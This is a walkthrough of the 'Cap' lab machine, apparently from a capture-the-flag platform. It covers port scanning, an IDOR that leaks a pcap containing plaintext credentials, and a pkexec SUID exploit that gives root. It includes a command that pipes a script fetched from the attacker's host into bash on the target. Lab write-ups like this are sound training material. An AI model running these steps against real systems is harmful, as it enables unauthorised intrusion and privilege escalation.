






# Cap
## Overview
| Difficulty | OS    | Tools                    |
| ---------- | ----- | ------------------------ |
| Easy       | Linux | nmap, wireshark, linpeas |

## Enumeration
- Full port scan: `nmap -p- --min-rate 5000 -T4 <target_ip>`
- Detailed scan on open ports: `nmap -sC -sV -p 21,22,80 <target_ip>`

- FTP anonymous login was disabled
- Found remote denial of service exploit based on ftp version: vsftpd 3.0.3. The exploit (CVE-2021-30047) successfully crashed the service but provided no foothold
- Website: hosted site is some type of security dashboard. There was not too much to interact with on the site with the exception of the "security snapshot" page. After opening the page, there was an option to download a pcap file. After downloading and opening in wireshark, nothing was of interest. Set that aside for the moment and moved to gobuster
- Ran gobuster to look for hidden directories using /usr/share/wordlists/dirb/common.txt. Gobuster threw some errors possibly due to some endpoints, e.g., /ip and /netstat, executing code server-side which led to the timeout of concurrent requests. /ip and /netstat were visible from manual enumeration anyways, so I went back to a deeper manual inspection on the website

## Foothold
- After going back to the "security snapshot" page on the website, I realized the url changed from /data/1 to /data/2. Realizing each download seems to increment the page, I changed the url to /data/0 to see if any scans were saved before I downloaded the first one. After the page loaded, a pcap was available to download containing much more than the pcap files I previously downloaded

- After opening the file in wireshark, I immediately searched for any strings matching "password" and found my foothold

- The username and password exposed in plaintext in the wireshark capture allowed for successful login for both ftp and ssh. Both of which give access to the user flag

## Privilege Escalation
- First checked if the user can run any commands with sudo by checking `sudo -l`. The user did not have permission to run sudo for any commands on this machine
- I then pivoted to linpeas. I entered the working directory on my host machine where linpeas was stored and ran `python -m http.server` so I can pull linpeas from my host machine to my target machine. I accomplished this by running `curl http://<host_ip>:8000/linpeas | bash` on my target machine. Python's http.server uses port 8000 by default which is why I specified 8000 when curling the script
- Linpeas exposed numerous possible privilege escalation vectors. At the top of the scan, there were CVEs listed as 95% a PE vector under the Copy Fail, Kernel Exploit Registry, and Dirty Frag sections. I looked into each of the CVEs using searchsploit and exploit-db but had compiling errors on the target machine due to missing dependencies required by the exploit (e.g., missing the libmnl.h header)
- Since those failed, I went back to my linpeas scan and tried the next likely PE vector. Under the Polkit Binary section, a CVE was found regarding an SUID bit being set on pkexec
- A text file was found in searchsploit after checking the CVE which contained text for two C files and instructions on how to compile

- After curling that file from my host to the target, I setup the two C files, compiled as per the instructions in the CVE, and after running the compiled code, I had a root shell

